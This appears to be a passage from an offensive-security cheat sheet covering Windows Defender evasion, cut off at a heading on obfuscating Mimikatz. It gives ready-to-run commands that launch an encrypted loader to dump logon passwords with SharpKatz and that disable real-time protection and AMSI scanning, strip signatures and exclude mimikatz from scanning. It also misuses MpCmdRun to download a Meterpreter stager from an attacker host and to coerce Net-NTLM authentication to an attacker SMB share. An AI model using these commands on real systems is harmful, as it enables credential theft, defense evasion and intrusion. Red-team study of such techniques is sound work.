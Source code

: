 ```
$ ./encrypted_assembly_loader 'Passw0rd!' SharpKatz.exe b64.txt
```

Decrypt and run it on target:

```
Nim > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```




## Defender

* [https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat](https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat)

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Add path to exclusions:

```
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Download stager without triggering Defender to scan it:

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Obfuscate Mimikatz
